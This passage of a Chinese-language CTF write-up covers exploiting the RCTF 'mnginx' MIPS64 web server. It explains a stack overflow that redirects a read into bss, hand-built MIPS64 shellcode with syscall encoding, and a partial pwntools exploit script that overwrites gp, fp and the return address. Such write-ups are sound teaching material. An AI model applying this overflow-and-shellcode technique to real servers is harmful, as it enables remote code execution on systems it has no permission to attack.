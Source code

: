 由于fp可控，因此buf位置可控，我们将其控制到bss上。此外`gp`的值是各种函数寻址的一个依据，调试可以看到其为一个固定值`0x12001a250`，照抄即可。最后经过二次溢出，可以在bss上部署shellcode。

```asm
67 C2 00 88             daddiu  $v0, $fp, 0x10C0+var_1038
24 06 10 00             li      $a2, 0x1000      # nbytes
00 40 28 25             move    $a1, $v0         # buf
00 00 20 25             move    $a0, $zero       # fd
DF 82 81 28             dla     $v0, read
00 40 C8 25             move    $t9, $v0
03 20 F8 09             jalr    $t9 ; read
```

编写shellcode花了很久，主要原因是pwntools似乎没有mips的as，而我无论是拿mips64-linux-as还是buildroot自带的mips64-buildroot-as都只能编译出ELF32的。shell-storm有一个在线的[Online Assembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)，不过有一些指令也识别不出。`radare`的`rasm2`同理。

最后的最后我把uClibc的IDA汇编导出，寻找自己想写的汇编指令，再通过alt+t反查字节码，编写出了shellcode。

系统调用的规则和x86相似，这里在buildroot的lib/include里找到了`unistd_n64.h`(可以直接拿find命令),其中`__NR_Linux`宏的值为十进制`5000`。系统调用的参数寄存器为a0/a1/a2，返回值存储到v0。

另外libc中搜到的syscall都是`syscall 0`，实际中需要的是`syscall 0x40404`，即字节码p32(0x0101010c)。



可以看到最后解析的字节码中t6/t7呢被换成了t2/t3，还是有些差异，不过不影响使用。这里的sw不可换成sd。

![](./9.png)

### exp.py

![](./10.png)

由于发送的payload数量过大，可能数据会有缺失或者粘连，发送间隔需要久一点，需要多试几次。

```py
#coding=utf-8
from pwn import *
context.update(arch='mips64',endian='big',os='linux',log_level="DEBUG")
debug = 0

libc = ELF('./lib/libc.so.0')
if debug == 1:
    p = process(["qemu-mips64-static", "-L", "/home/wz/Desktop/CTF/RCTF/mnginx/player", "./mginx"])
elif debug == 2:
    p = process(["qemu-mips64-static", "-g", "1234", "-L", "/home/wz/Desktop/CTF/RCTF/mnginx/player", "./mginx"])
else:
    p = remote("127.0.0.1",3333)

def exp():
    raw_input()
    payload = "POST /xmzyshypnc"
    payload += "  \r\n"
    payload += "Connection: no"
    payload += "Content-Length: "
    payload += str(0xfff)
    payload += "\r\n\r\n"
    payload = payload.ljust(0xf0,'\x00')
    p.send(payload)
    bss_addr = 0x12001a250
    read_addr = 0x1200018c4
    payload = 'a'*0xf30
    payload += p64(bss_addr)#gp
    payload += p64(0x0000000120012000+0x500-0x88)#fp
    payload += p64(read_addr)#$ra
    payload += p64(0x12345678)#$sp
```